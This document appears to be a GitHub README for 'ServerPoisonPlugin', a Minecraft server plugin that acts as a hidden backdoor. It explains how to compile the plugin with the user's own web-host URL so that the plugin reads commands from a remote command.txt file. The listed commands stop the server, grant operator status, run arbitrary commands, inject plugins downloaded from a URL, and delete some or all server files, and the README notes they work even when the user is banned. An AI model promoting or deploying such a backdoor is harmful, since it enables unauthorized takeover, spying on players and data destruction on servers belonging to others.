 ## Important

**Before you can use the plugin, you need to host the website on a server (You can find a free hosting service [here](https://fr.000webhost.com/)).
**You also need to compile the plugin with your username and the HTTP link to your web hosting in the variables provided, as shown in the screenshot below.
(You can use [Eclipse](https://www.eclipse.org/) to edit and compile the code.)

![image](https://github.com/cempack/ServerPoisonPlugin/assets/73651345/3ca7e874-8594-4327-b456-f6ad1cc695d2)

## Commands and Usage

**The commands below should be placed in the command.txt file on the website. You can execute them even if you are banned from the server.**

1. **Command: stop**
   Usage: Type "stop" to shut down the server.
   Example: `stop`

2. **Command: op \<player\>**
   Usage: Type "op \<player\>" to grant operator status to a player.
   Example: `op JohnDoe`

3. **Command: command \<command\>**
   Usage: Type "command \<command\>" to execute a specific server command.
   Example: `command kill player123`

4. **Command: inject \<url\>**
   Usage: Type "inject \<url\>" to inject a plugin from a given URL.
   Example: `inject http://example.com/somefile.jar`

5. **Command: delete \<file\>**
   Usage: Type "delete \<file\>" to delete a specific file from the server.
   Example: `delete logs.txt`

6. **Command: deleteall**
   Usage: Type "deleteall" to delete all files on the server.
   Example: `deleteall`

In addition to these commands, the plugin also displays all commands executed by other players in your in-game chat.
